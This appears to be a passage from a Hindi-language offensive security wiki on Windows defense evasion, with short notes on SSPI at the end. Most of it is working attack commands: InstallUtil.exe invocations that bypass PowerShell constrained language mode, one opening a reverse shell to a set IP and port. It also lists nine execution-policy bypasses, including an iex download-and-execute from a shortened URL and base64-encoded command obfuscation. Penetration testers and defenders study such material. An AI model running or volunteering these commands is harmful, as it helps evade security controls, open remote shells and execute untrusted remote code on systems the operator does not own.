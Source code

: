#### सीधा बाइपास:

```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U c:\temp\psby.exe
```

#### रिवर्स शैल:

```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.13.206 /rport=443 /U c:\temp\psby.exe
```

आप [**ReflectivePick**](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick) या [**SharpPick**](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick) का उपयोग कर सकते हैं **Powershell को निषिद्ध मोड** को छलकर किसी प्रक्रिया में चलाने के लिए। अधिक जानकारी के लिए देखें: [https://hunter2.gitbook.io/darthsidious/defense-evasion/bypassing-applocker-and-powershell-contstrained-language-mode](https://hunter2.gitbook.io/darthsidious/defense-evasion/bypassing-applocker-and-powershell-contstrained-language-mode).

## PS Execution Policy

डिफ़ॉल्ट रूप से यह **restricted** पर सेट किया गया है। इस नीति को छलकरने के मुख्य तरीके:

```powershell
1º Just copy and paste inside the interactive PS console
2º Read en Exec
Get-Content .runme.ps1 | PowerShell.exe -noprofile -
3º Read and Exec
Get-Content .runme.ps1 | Invoke-Expression
4º Use other execution policy
PowerShell.exe -ExecutionPolicy Bypass -File .runme.ps1
5º Change users execution policy
Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
6º Change execution policy for this session
Set-ExecutionPolicy Bypass -Scope Process
7º Download and execute:
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://bit.ly/1kEgbuH')"
8º Use command switch
Powershell -command "Write-Host 'My voice is my passport, verify me.'"
9º Use EncodeCommand
$command = "Write-Host 'My voice is my passport, verify me.'" $bytes = [System.Text.Encoding]::Unicode.GetBytes($command) $encodedCommand = [Convert]::ToBase64String($bytes) powershell.exe -EncodedCommand $encodedCommand
```

## सुरक्षा समर्थन प्रदाता इंटरफेस (SSPI)

यह एपीआई है जिसका उपयोग उपयोगकर्ताओं की प्रमाणीकरण के लिए किया जा सकता है।

SSPI को दो मशीनों के बीच संचार करना चाहती है जिसके लिए उपयुक्त प्रोटोकॉल खोजना होगा। इसके लिए पसंदीदा विधि Kerberos है। फिर SSPI यह निर्धारित करेगा कि कौन सा प्रमाणीकरण प्रोटोकॉल उपयोग किया जाएगा, इन प्रमाणीकरण प्रोटोकॉल को सुरक्षा समर्थन प्रदाता (SSP) कहा जाता है, ये हर विंडोज मशीन में एक DLL के रूप में स्थित होते हैं और दोनों मशीनों को संचार करने के लिए एक ही समर्थन करना होगा।
